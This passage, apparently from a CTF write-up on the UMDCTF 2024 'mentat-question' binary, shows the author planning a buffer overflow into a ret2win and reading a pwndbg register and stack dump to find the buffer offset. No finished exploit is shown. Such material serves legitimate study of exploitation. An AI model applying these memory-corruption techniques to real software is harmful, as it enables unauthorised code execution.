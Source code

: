 We could now perform a buffer overflow in the next iteration and craft a `ret2win` to get a shell

### Buffer Overflow to Ret2Win
First we must know the offset of the buffer `char buf[16]` from the stack base pointer. I'll read a few bytes of visible garbage into the buffer and set a breakpoint right after the gets to examine the stack contents. 

```bash
Which numbers would you like divided?
1
4294967296
1
0
Oh, I was not aware we were using negative numbers!
Would you like to try again?
Yes AAAAAAAA
Was that a Yes AAAAAAAA
Breakpoint 1, 0x00005555555552bb in calculate ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
───────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]────────────────────────────────────────
*RAX  0xc
 RBX  0x0
 RCX  0x7ffff7e96887 (write+23) ◂— cmp rax, -0x1000 /* 'H=' */
 RDX  0x0
 RDI  0x7fffffffb5f0 —▸ 0x7ffff7de4050 (funlockfile) ◂— endbr64
 RSI  0x7fffffffb710 ◂— 'Yes AAAAAAAAffd880 0x7fffffffdc09'
*R8   0xc
*R9   0x0
*R10  0x7fffffffd840 ◂— 'Yes AAAAAAAA'
 R11  0x246
 R12  0x7fffffffd998 —▸ 0x7fffffffdc1a ◂— '/home/fooker/ctfs/pwn/learn/exploitation-notebook/binary-exploitation/ctfs/umdctf2024/mentat-question/mentat-question'
 R13  0x55555555530b (main) ◂— push rbp
 R14  0x555555557dd8 —▸ 0x555555555180 ◂— endbr64
 R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
 RBP  0x7fffffffd850 —▸ 0x7fffffffd880 ◂— 0x1
 RSP  0x7fffffffd830 —▸ 0x55555555530b (main) ◂— push rbp
 RIP  0x5555555552bb (calculate+204) ◂— mov rax, qword ptr [rip + 0x2dbe]
────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────
 ► 0x5555555552bb <calculate+204>    mov    rax, qword ptr [rip + 0x2dbe] <stdout@GLIBC_2.2.5>
   0x5555555552c2 <calculate+211>    mov    rcx, rax
   0x5555555552c5 <calculate+214>    mov    edx, 0xa
   0x5555555552ca <calculate+219>    mov    esi, 1
   0x5555555552cf <calculate+224>    lea    rax, [rip + 0xda3]
   0x5555555552d6 <calculate+231>    mov    rdi, rax
   0x5555555552d9 <calculate+234>    call   fwrite@plt                <fwrite@plt>

   0x5555555552de <calculate+239>    mov    eax, 0
   0x5555555552e3 <calculate+244>    jmp    calculate+282                <calculate+282>

   0x5555555552e5 <calculate+246>    lea    rax, [rip + 0xd9c]
   0x5555555552ec <calculate+253>    mov    rdi, rax
──────────────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────────────
00:0000│ rsp 0x7fffffffd830 —▸ 0x55555555530b (main) ◂— push rbp
01:0008│-018 0x7fffffffd838 ◂— 0x100000000
02:0010│ r10 0x7fffffffd840 ◂— 'Yes AAAAAAAA'
03:0018│-008 0x7fffffffd848 ◂— 0x7f0041414141 /* 'AAAA' */
04:0020│ rbp 0x7fffffffd850 —▸ 0x7fffffffd880 ◂— 0x1
05:0028│+008 0x7fffffffd858 —▸ 0x55555555545c (main+337) ◂— mov dword ptr [rbp - 4], eax
06:0030│+010 0x7fffffffd860 —▸ 0x7fffffffdc09 ◂— 0x34365f363878 /* 'x86_64' */
07:0038│+018 0x7fffffffd868 ◂— 'd4294967296'
```